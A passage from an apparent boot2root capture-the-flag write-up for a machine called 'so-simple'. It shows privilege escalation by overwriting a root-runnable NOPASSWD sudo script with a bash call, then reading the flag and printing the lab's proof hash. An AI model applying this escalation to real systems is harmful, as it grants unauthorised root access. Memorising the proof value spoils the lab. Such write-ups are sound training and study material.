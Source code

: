   

Now I'm steven to see what sudo program privileges he has via sudo -l (list commands)

  

steven@so-simple:/$ sudo -l

Matching Defaults entries for steven on so-simple:

    env_reset, mail_badpass,

    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  

User steven may run the following commands on so-simple:

    (root) NOPASSWD: /opt/tools/server-health.sh

Looks like there is a root level command in here to be run. I'll change the script then run it as root.

  

my script basically just opens bash

  

steven@so-simple:/opt/tools$ vi server-health.sh 

#!/bin/bash

bash

steven@so-simple:/opt/tools$ chmod +x server-health.sh

steven@so-simple:/opt/tools$ sudo -u root ./server-health.sh 

root@so-simple:/opt/tools# cd

root@so-simple:~# ls

flag.txt  proof.txt  snap

root@so-simple:~# cat flag.txt 

This is not the flag you're looking for...

root@so-simple:~# cat proof.txt 

2a7679c063977227e74ec78e7a43f807

Boot2Root